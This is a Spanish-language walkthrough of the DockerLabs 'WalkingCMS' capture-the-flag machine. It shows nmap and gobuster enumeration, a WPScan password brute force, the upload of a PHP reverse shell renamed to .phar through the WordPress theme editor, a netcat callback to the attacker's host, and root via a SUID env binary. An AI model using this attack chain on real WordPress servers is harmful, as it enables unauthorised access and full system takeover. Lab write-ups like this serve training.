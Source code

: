 # 🖥️ Writeup - WalkingCMS 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip walkingcms.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh walkingcms.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-17 14:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Tenemos el puerto `80` abierto.

Al acceder vemos solo la página por defecto de `Apache2`.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar encontrar rutas o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              sh,html,zip,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
Progress: 1041917 / 1543899 (67.49%)
```

Parece que hay un `CMS`; en este caso, `WordPress`.

Vamos a enumerar la versión, los temas y los usuarios con `WPScan`.

# WPSCAN

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
```

Info:
```
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Hemos encontrado al usuario `mario`.

En cuanto a `plugins`, `temas` y versión no encontramos nada interesante de momento.

Ya que solo tenemos información sobre un usuario, vamos a probar un ataque de `fuerza bruta` con `WPScan`.

```bash
wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

Info:
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                           
Trying mario / love Time: 00:00:05 <                                       > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

Encontramos credenciales de `WordPress` para el usuario `mario` : `love`.

Accedemos mediante el login en http://172.17.0.2/wordpress/wp-admin/.

![alt text](../images/wp.png)

Una vez dentro encontramos un `plugin` llamado `Theme Editor`, que nos permite modificar, subir o eliminar archivos de un tema.

Aprovechamos esto para subir un script en `PHP` para obtener una `reverse shell`, usando la `php-reverse-shell` de PentestMonkey en GitHub.

Sin embargo, nos indica que no se pueden subir archivos `.php`. Probamos con la extensión `.phar`, que a nivel práctico hace lo mismo.

```bash
cp shell.php shell.phar
```

Ahora nos ha permitido subirlo.

Ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ejecutamos el script `.phar` navegando por `HTTP` al directorio donde se encuentra.

```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentythree/shell.phar
```

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 60962
Linux 3196cc390eee 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 GNU/Linux
 12:43:16 up 41 min,  0 user,  load average: 0.60, 0.65, 1.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Recibimos una `reverse shell` como el usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash 
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
```

Vemos que podemos ejecutar el binario `env` con permisos `SUID`, por lo que podemos escalar a `root` de la siguiente manera:

```bash
/usr/bin/env /bin/bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2#
``` 

Ya somos root!